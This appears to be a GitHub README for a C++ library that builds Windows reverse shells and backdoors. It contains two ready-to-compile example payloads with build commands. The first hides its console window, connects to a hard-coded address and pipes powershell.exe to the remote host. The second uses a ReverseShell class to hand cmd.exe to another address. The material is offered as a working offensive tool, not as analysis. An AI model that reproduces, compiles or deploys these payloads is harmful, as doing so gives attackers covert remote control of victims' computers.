

# WinBackdoorLib
a simple Lib to create "reverse shell or backdoor" simply with Windows API




## example Payload :
  ```cpp
  //compile : g++ socket_winbd.cpp test_winbd.cpp -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
#include "socket_winbd.h" //to start, we're including our header in our file.

int main() // 
{
    FreeConsole(); // hide console
    SOCKET socks; // equ int socks;
    WSADATA wsa; // equ for wsa

    struct sockaddr_in session; //we declare the structure "sockaddr_in" which will be named session

    WSAStartup(MAKEWORD(2, 2), &wsa); // startup WSA
    socks = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0); // socket configuration

    session.sin_family = AF_INET; // socket Family (AF_INET)
    session.sin_addr.s_addr = inet_addr("192.168.1.20"); // set the address
    session.sin_port = htons(555); // set the port

    int c = connect(socks, session); // connect to remote host
    if (c != -1)
    {
        execute_process(socks, "powershell.exe"); // Handle Process
    }
    return 0;
}
  ```
## Exemple Payload Object :
```cpp
#include "reverse_shell.h"
// compile : g++ socket_winbd.cpp reverse_shell.cpp try_rev_shell.cpp -o payload.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

int main()
{
	ReverseShell rev_shell("192.168.1.27",555,AF_INET,"cmd.exe");
	rev_shell.get_config();
	rev_shell.exec();
	return 0;
}
```

## More Payload in Documentation :
<a href="https://unam3dd.github.io/WinbdDocs/">View Documentation</a>
